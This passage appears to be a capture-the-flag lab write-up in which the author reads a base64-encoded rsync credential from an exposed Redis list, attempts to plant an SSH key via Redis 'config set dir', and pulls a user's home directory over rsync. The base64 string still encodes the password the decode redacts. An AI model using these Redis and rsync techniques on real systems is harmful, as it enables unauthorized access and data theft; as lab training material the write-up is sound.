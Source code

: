 `lrange authlist 0 9999`

```
10.10.210.255:6379> lrange authlist 0 9999
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

So we have some base64 text in the authlish, and all 4 of those look identical. Let's decode it and see what it says:

`echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
`

```
Authorization for rsync://rsync-connect@127.0.0.1 with password <REDACTED>
```

Well that seems helpful.

If you have permission you can sometimes upload your ssh public key into a users authorized_keys file and then just ssh over. I check to see if we can access the redis users .ssh and we can't:

`config set dir /home/redis/.ssh`

```
10.10.210.255:6379> config set dir /home/redis/.ssh
(error) ERR Changing directory: Permission denied
```

<br>

## Rsync Digging

We know port 873 is open, and we have a username and password to authenticate with it, so let's see what we can find. I run the following command which will download all files on the server to your current directory:

`rsync -av rsync://rsync-connect@$ip:873/files .`

It downloaded everything to the sys-internal directory on our system:

```
drwxr-xr-x 18 kali kali 4096 Feb  6  2021 sys-internal
```

And looking at the files:

```
total 108
drwxr-xr-x 18 kali kali 4096 Feb  6  2021 .
drwxr-xr-x  3 kali kali 4096 Feb  1  2021 ..
lrwxrwxrwx  1 kali kali    9 Feb  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 kali kali  220 Feb  1  2021 .bash_logout
-rw-r--r--  1 kali kali 3771 Feb  1  2021 .bashrc
drwxrwxr-x  8 kali kali 4096 Feb  2  2021 .cache
drwxrwxr-x 14 kali kali 4096 Feb  1  2021 .config
drwx------  3 kali kali 4096 Feb  1  2021 .dbus
drwx------  2 kali kali 4096 Feb  1  2021 Desktop
-rw-r--r--  1 kali kali   26 Feb  1  2021 .dmrc
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Documents
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Downloads
drwx------  3 kali kali 4096 Feb  1  2021 .gnupg
drwxrwxr-x  3 kali kali 4096 Feb  1  2021 .local
```